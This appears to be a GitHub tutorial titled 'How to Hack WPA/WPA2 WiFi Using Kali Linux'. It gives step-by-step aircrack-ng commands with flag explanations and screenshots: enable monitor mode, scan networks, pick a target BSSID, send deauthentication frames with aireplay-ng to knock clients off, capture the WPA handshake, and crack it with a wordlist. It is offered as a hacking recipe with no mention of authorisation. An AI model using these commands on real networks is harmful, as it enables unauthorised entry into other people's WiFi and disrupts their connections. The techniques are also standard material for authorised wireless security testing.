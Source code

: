 # How to Hack WPA/WPA2 WiFi Using Kali Linux?
 
*  **“Hacking Wifi” sounds really cool and interesting. But actually hacking wifi practically is much easier with a good wordlist. But this world list is of no use until we don’t have any idea of how to actually use that word list in order to crack a hash. And before cracking the hash we actually need to generate it. So, below are those steps along with some good wordlists to crack a WPA/WPA2 wifi.**
 
 # Explanation:
 
 * So, boot up Kali Linux. Open the terminal window. And perform the following steps.
 
 ## Step:1
 
 * ifconfig(interface configuration) : To view or change the configuration of the network interfaces on your system.
 
 <img width="401" alt="image" src="https://user-images.githubusercontent.com/104230071/197165166-ffeb0a07-2958-4991-8132-48df292d4ac3.png">

## Here

* **eth0 : First Ethernet interface**
* l0 : Loopback interface
**wlan0 : First wireless network interface on the system. (This is what we need.)**

# Step 2: Stop the current processes which are using the WiFi interface.

* airmon-ng check kill

* ![image](https://user-images.githubusercontent.com/104230071/197166016-d8e2c146-23c1-4e36-af71-6d1d3db6b737.png)

# Step 3: To start the wlan0 in monitor mode.
* airmon-ng start wlan0

![image](https://user-images.githubusercontent.com/104230071/197166236-57899937-6a15-48d1-8eb1-9bb1106dd714.png)

# Step 4: To view all the Wifi networks around you.
* airodump-ng wlan0mon

![image](https://user-images.githubusercontent.com/104230071/197166487-0c812da7-2a82-43ae-8d76-a8b454534212.png)

## Here

* airodump-ng : For packet capturing
* wlan0mon : Name of the interface (This name can be different on the different devices)
**Press Ctrl+C to stop the process when you have found the target network.**

# Step 5: To view the clients connected to the target network.
* airodump-ng -c 1 --bssid 80:35:C1:13:C1:2C -w /root wlan0mon

![image](https://user-images.githubusercontent.com/104230071/197166866-f7987769-c65e-41b6-b688-13eade0c97b5.png)

## Here

* airodump-ng : For packet capturing
* -c : Channel
* –bssid : MAC address of a wireless access point(WAP).
* -w : The Directory where you want to save the file(Password File).
* wlan0mon : Name of the interface.

# Step 6: Open a new terminal window to disconnect the clients connected to the target network.
* aireplay-ng -0 10 -a 80:35:C1:13:C1:2C wlan0mon

![image](https://user-images.githubusercontent.com/104230071/197167144-da83f81d-b30c-43f2-98a3-1183ef624f16.png)

* aireplay-ng : To inject frames
* -0 : For deauthentication
* 10 : No. of deauthentication packets to be sent
* -a : For the bssid of the target network
* wlan0mon : Name of the interface.
**When the client is disconnected from the target network. He tries to reconnect to the network and when he does you will get something called WPA handshake in the previous window of the terminal.**

![image](https://user-images.githubusercontent.com/104230071/197167374-2b9f7f21-c9b3-4a5f-b12c-1a5bb3e042a7.png)

# Step 7. To decrypt the password. Open the Files application.

![image](https://user-images.githubusercontent.com/104230071/197167534-ae13567a-1685-4a79-9d79-a1df2ea30df2.png)

## Here

* hacking-01.cap is the file you need.
* aircrack-ng -a2 -b 80:35:C1:13:C1:2C -w /root/passwords.txt /root/hacking-01.cap
* aircrack-ng : 802.11 WEP and WPA-PSK keys cracking program
* -a : -a2 for WPA2 & -a for WPA network
* -b : The BSSID of the target network
* -w : Location of the wordlist file
* /root/hacking-01.cap : Location of the cap file
**You can download the file of common passwords from the internet and if you want to create your own file then you can use the crunch tool**

![image](https://user-images.githubusercontent.com/104230071/197167835-58cae4c6-52dc-42a2-81e1-3ce1caa98cbc.png)




 
